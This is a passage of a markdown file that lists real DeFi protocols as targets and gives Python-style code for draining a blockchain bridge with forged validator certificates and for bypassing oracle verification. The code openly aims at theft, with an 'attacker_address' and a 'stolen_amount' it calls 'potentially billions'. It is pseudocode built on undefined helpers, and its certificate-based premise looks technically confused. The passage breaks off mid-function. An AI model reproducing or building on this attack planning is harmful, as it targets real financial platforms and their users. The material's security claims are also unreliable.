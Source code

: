 ```yaml
  lending:
    - name: "Aave"
      tvl: "$15 billion"
      certificates: ["*.aave.com"]
    
  dex:
    - name: "Uniswap"
      tvl: "$8 billion"
      certificates: ["*.uniswap.org"]
```

### Bridge Exploitation
```python
def exploit_blockchain_bridge():
    """Exploit blockchain bridge using certificate attacks"""
    
    # Target validator nodes
    validators = identify_bridge_validators()
    
    for validator in validators:
        # Compromise validator certificate
        fake_validator_cert = forge_validator_certificate(
            validator_id=validator.id,
            voting_power=1000000  # Massive voting power
        )
        
        # Submit fraudulent cross-chain messages
        fraudulent_transfer = create_transfer(
            from_chain="Ethereum",
            to_chain="Polygon",
            amount=1000000,  # ETH
            recipient="attacker_address"
        )
        
        # Sign with compromised certificate
        signed_message = sign_with_validator_cert(
            fraudulent_transfer,
            fake_validator_cert
        )
        
        # Execute bridge exploit
        execute_bridge_transfer(signed_message)
    
    # Profit calculation
    stolen_amount = calculate_bridge_drain()
    return stolen_amount  # Potentially billions
```

### Smart Contract Certificate Verification Bypass
```python
def bypass_contract_verification():
    """Bypass smart contract certificate verification"""
    
    # Target oracle networks
    oracle_certificates = [
        "chainlink.oracle.com",
        "band.oracle.com",
        "api3.oracle.com"
    ]
    
    for oracle_cert in oracle_certificates:
        # Create malicious oracle certificate
        malicious_oracle = create_oracle_certificate(
```